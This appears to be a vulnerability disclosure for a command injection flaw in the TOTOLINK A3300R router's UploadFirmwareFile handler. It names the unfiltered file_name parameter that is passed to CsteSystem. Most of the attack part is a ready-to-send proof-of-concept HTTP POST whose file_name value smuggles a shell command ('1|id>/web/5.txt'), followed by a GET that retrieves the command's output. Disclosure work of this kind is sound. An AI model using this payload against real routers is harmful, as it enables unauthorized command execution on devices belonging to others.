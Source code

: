 #  A3300R UploadFirmwareFile Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](setWanCfg.assets/image-20241210182241481.png)

**Description**

The `UploadFirmwareFile` parameter is vulnerable to command injection when processing the `file_name` request.

**Analyse**

The function `sub_413748` processes the `UploadFirmwareFile` request, retrieves the `file_name` parameter from the request body, and passes it to the `CsteSystem` function without filtering.

![image-20241211113601695](5.assets/image-20241211113601695.png)

![image-20241211113647257](5.assets/image-20241211113647257.png)

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 108
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"file_name": "1|id>/web/5.txt","content_length":"100","topicurl":"UploadFirmwareFile","token":"1234"}
```

![image-20241211112906096](5.assets/image-20241211112906096.png)

```
GET /5.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211113006224](5.assets/image-20241211113006224.png)
